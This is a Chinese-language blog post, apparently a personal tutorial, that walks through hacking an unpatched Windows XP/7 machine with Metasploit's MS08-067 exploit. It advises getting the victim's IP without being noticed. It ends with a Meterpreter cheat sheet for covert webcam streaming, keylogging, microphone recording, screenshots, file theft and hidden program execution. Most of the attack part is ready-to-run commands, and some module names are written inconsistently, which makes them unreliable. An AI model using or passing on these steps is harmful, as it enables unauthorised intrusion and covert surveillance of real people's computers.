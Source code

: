 ```yaml
---
layout: post
title: 用kali来黑掉windows
tags: windows linux
img: 'https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/cover.jpg'
---
```


Metasploit Framwork is not a good thing ...   
Oh,no! My computer!

---

### 前言
哈喽大家好。我又好久没更新博客了。  
这段时间里我给我的电脑装上了kali。  
（耀庄老弟你咋没事找事干呢）  
其实事情是这样的，前一段时间我的电脑移到~~其他地方~~办公室去了。  
然后我去插那边的网线，结果插上是插上了，电脑上也写着连接了，有因特访问。可是我进百度却进半天都没进去，竟然还连接超时，7456。  
我请人看了，说是我电脑的问题，叫我装双系统。Okay，这就是我最近在为kali做准备的原因。  
耀庄你这是要黑别人的电脑不成？  
不过话说现在已经没事了，我用上了WIFI网卡。我还在想着入侵入侵入侵。。  
~~反正就是一句话，没事找事干😜~~
  
### 准备材料
- Kali电脑一部
- 没装防火墙和360卫士或防火墙不稳定的电脑一部
  - 搭载WinXP或Win7
  - 可以是笔记本或台式机

### 01.开启Metasploit
Metasploit是一个安全渗透软件。Kali可以在终端*root*里输入:  
```bash
msfconsole
```
来打开它。
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/01.png)

### 02. 搜索Xp漏洞
我们可以查看漏洞在这个*安全渗透环境*查看windows的漏洞都有啥的。输入:
```msf
search platform: windows
```
或者是
```msf
search netapi
```
来搜索。  
之后，你会看到有一个`ms08-netapi`的漏洞，利用等级是`great`。  
但确保你要攻击的电脑有这个ms08漏洞。如果没有，请试其他。  
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/02.png)

### 03.使用ms08漏洞并设置
使用该内容，输入:
```msf
use exploit/windows/smb/ms08_067netapi
```
你会发现命令的提示符旁边多了`exploit(windows/smb/ms08_067-netapi)`，表示使用成功。
你可以通过`info *内容名`来详细查看这个内容。
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/03.png)

### 04.设置载荷
载荷可以说是一个会话的类型设置。你可以看到命令的末尾有个`bind_tcp`。  
`bind tcp`可说是隐秘的会话。`reverse_tcp`是指通过软件发起的对话。我等会儿会讲软件传播。  
输入。
```msf
set payload windows/meterpreter/bind_tcp
```

### 05.设置要控制的主机
另外，攻击Xp主机要先提前知道Xp的IP地址。  
别被人发现，跑到Xp电脑进入cmd输入`ipconfig`查看ip地址。比如，我这里看到ip地址是`192.108.1.104`。    
回到你的kali前，输入:  
```msf
set RHOST 192.108.1.104
```
这里是设定控制主机的ip地址。RHOST可说是全写Remote Host。

### 06.开始攻击！
做完这些后，你就可以开始了！输入！
```msf
exploit
```
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/04.png)
![](https://coding.net/u/SunbossRS/p/GotBlogDowner/git/raw/master/img/kalihack/05.png)

>该文章中的所有图片均为网上的图片。如果侵犯到了你的权利，可联系作者来进行删除。
<br /> <br /> <br />

***

<br />

<br /> <br /> <br />

***

<br />

### Meterpreter命令集
- 使用vnc查看桌面
```msf
run vnc
```
- 监视摄像头
```msf
webcam_stream
```
- 监视键盘按下内容  
```msf
keyscan_start
//开启键盘记录
keyscan_dump
//显示键盘输入内容
keyscan_stop
//停止键盘记录
```
- 录制声音
```msf
record -d xx
//录制音频xx秒
record_mic
//录制音频
```
- 截屏
```msf
screenshot
```
- 进入cmd
```msf
shell
```
- 从目标机器下载东西
```msf
download C:\\path\\to\\file
```
- 从kali上传内容到目标机器
```msf
upload ~/file C:\\path\\up\\
```
- 查看有几个摄像头
```msf
webcam_list
```
-运行程序
```msf
execute -f 文件名
//运行文件
execute -f -H 文件名
//隐秘的运行应用
execute -i -f -H 文件名
//隐秘的交互进行应用,当文件名为cmd时meterpreter命令行会变成cmd
```
